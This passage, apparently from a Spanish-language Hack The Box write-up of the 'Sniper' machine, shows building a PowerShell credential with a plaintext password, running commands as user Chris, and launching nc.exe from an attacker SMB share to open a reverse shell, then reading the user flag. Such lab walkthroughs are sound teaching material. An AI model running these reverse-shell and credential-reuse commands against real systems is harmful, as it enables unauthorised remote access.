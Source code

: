 ```
PS C:\inetpub\wwwroot> $cred = New-Object System.Management.Automation.PSCredential("Sniper\Chris",(ConvertTo-SecureString -String "36mEAhz/B8xQ~2VM" -AsPlainText -Force))

PS C:\inetpub\wwwroot> Invoke-Command -ComputerName $env:COMPUTERNAME -Credential $cred -ScriptBlock {whoami}
sniper\chris

```
Nos ponemos en escucha con 'nc' en nuestra máquina de atacante , en mi caso en el puerto 9001:

```
┌─[ot3ro@parrot]─[~/HTB/Sniper]
└──╼ $sudo rlwrap nc -lnvp 9001
listening on [any] 9001 ...

```
Y ejecutamos comando como el usuario Chris para mandarnos una revershell usando el ejecutable 'nc.exe' que descargaremos de nuestro servidor 'impacket-smbserver' anterior:

```
PS C:\inetpub\wwwroot> Invoke-Command -ComputerName $env:COMPUTERNAME -Credential $cred -ScriptBlock {\\10.10.14.15\share\nc.exe 10.10.14.15 9001 -e powershell}
```
>><p style="font-size: 16px;">NOTA: Si notas que falla la conexión, intenta reiniciar tu servidor SMB.</p>

```
┌─[ot3ro@parrot]─[~/HTB/Sniper]
└──╼ $sudo rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.151] 49765
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Chris\Documents> whoami
sniper\chris

PS C:\Users\Chris\Documents> 

```
Hemos logrado conectarnos a la máquina Sniper como el usuario Chris.

```
PS C:\Users\Chris> cd Desktop
PS C:\Users\Chris\Desktop> Get-ChildItem -Force

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a-hs-        4/11/2019   7:04 AM            282 desktop.ini                                                           
-ar---        9/13/2023  12:07 AM             34 user.txt 

PS C:\Users\Chris\Desktop> gc user.txt
1f7474c8472b4fa266a6be9938f0ca6c
```
Y vemos que ya logramos obtener nuestra primer flag user.txt. Ahora nos toca intentar escalar privilegios. Entonces seguiremos enumerando la máquina.
